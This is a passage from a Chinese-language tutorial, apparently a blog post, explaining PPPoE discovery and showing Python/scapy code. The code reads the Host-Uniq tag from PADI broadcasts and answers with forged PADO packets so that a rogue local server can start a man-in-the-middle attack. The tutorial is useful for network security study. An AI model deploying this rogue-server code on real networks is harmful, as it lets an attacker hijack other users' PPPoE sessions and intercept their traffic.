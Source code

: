 PADI 分组必须至少包含一个 Host-Uniq，Host-Uniq为主机唯一标识，类似于PPP数据报文中的标识域，主要是用来匹配发送和接收端的。因为对于广播式的网络中可能会同时存在很多个PPPoE的数据报文。

![](https://raw.githubusercontent.com/akkuman/pic/master/img/PADI_TIM_20190512202318.png)

因为此时发的是广播包，那么我们只需要本机搭建一个 Server 对 PADI 进行响应，就可以开始我们的中间人作业了。

具体流程就是监听网卡，然后过滤 CODE 字段值为 0×09 的包然后进行响应即可。

因为其中的 Host-Uniq 字段在后续的请求中都需要，我们写一个函数把这个字段值揪出来。

```python
#寻找客户端发送的Host-Uniq
def padi_find_hostuniq(self, payload):
    _key = b'\x01\x03'
    payload = bytes(payload)
    if _key in payload:
        _nIdx = payload.index(_key)
        _nLen = struct.unpack("!H", payload[_nIdx + 2:_nIdx + 4])[0]
        _nData = payload[_nIdx + 2:_nIdx + 4 + _nLen]
        return _key + _nData
    return
```

需要传入的是一个 Packet.payload，payload 是除去链路层的其他数据，在这里面具体就是 PPPoED 下面的数据

### PADO

当一个接入集中器（Server）接收到一个 PADI 包以后，就需要进行响应，发出 PADO 包了。

PADO 包的 CODE 字段值为 0×07，SESSION-ID 字段值仍为 0×0000。

PADO分组必须包含一个接入集中器名称类型的标签（此处的标签类型字段值为 akkuman），其实就是一个名字，你想填什么都可以。

并且需要包含前面 PADI 包中的 Host-Uniq 字段，这个字段在 PPPoE 的发现阶段都是必要的。

![](https://raw.githubusercontent.com/akkuman/pic/master/img/PADO_TIM_20190512203433.png)

在载荷中可能有多个 tag，他们的格式如下：

```
    0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1
   +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
   |          TAG_TYPE             |        TAG_LENGTH             |
   +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
   |          TAG_VALUE ...                                        ~
   +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

可以看出，标记的封装格式采用的是大家所熟知的TLV结构，也即是（类型+长度+数据）。标记的类型域为2个字节，各个标记的类型所代表的含义具体可以查看 [RFC 2516](https://datatracker.ietf.org/doc/rfc2516/) 或 [PPPoE帧格式](https://datatracker.ietf.org/doc/rfc2516/)

这里的 0x0103 即代表 Host-Uniq，是主机唯一标识，作用在上文已经提及。

那我们可以根据这个要求写一个发送 PADO 包的函数。

```python
#发送PADO回执包
def send_pado_packet(self, pkt):
    # 寻找客户端的Host_Uniq
    _host_Uniq = self.padi_find_hostuniq(pkt.payload)
    _payload = b'\x01\x02\x00\x07akkuman\x01\x01\x00\x00'
    if _host_Uniq:
        _payload += _host_Uniq
    # PADO 回执包的 sessoinid 为 0x0000
    pkt.sessionid =  getattr(pkt, 'sessionid', 0x0000)
    sendpkt = Ether(src=MAC_ADDRESS, dst=pkt.src, type=0x8863) / PPPoED(version=1, type=1, code=0x07, sessionid=pkt.sessionid, len=len(_payload)) / _payload
    scapy.sendp(sendpkt)
```
